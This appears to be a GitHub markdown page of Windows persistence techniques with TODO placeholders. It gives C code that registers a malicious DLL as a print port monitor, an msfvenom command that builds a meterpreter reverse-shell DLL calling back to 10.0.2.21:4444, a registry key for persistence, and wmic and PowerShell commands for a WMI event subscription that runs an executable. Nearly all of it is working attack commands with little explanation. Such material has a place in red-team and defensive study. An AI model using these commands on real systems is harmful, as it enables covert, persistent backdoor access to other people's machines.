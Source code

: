 # Port Monitors

The following code can be compiled to produce an executable called Monitors.exe that will perform the registration of the malicious DLL.

```
#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("test.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

The DLL can be generated through Metasploit utility msfvenom by executing the following command:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.21 LPORT=4444 -f dll > test.dll
```
The DLL needs to be copied into the System32 windows folder:
```
copy C:\Users\pentestlab\Desktop\test.dll C:\Windows\System32
```
From the command prompt executing the following application will perform the registration of the arbitrary DLL.
```
Monitors.exe
```
Persistence is achieved by creating the following registry key:
```
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
```
# WMI Event Subscription 

TODO

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="PentestLab", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="PentestLab", ExecutablePath="C:\Windows\System32\pentestlab.exe",CommandLineTemplate="C:\Windows\System32\pentestlab.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"PentestLab\"", Consumer="CommandLineEventConsumer.Name=\"PentestLab\""
```

TODO

```
$FilterArgs = @{name='Pentestlab-WMI';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
 
$ConsumerArgs = @{name='Pentestlab-WMI';
                CommandLineTemplate="$($Env:SystemRoot)\System32\pentestlab.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
 
$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

TODO
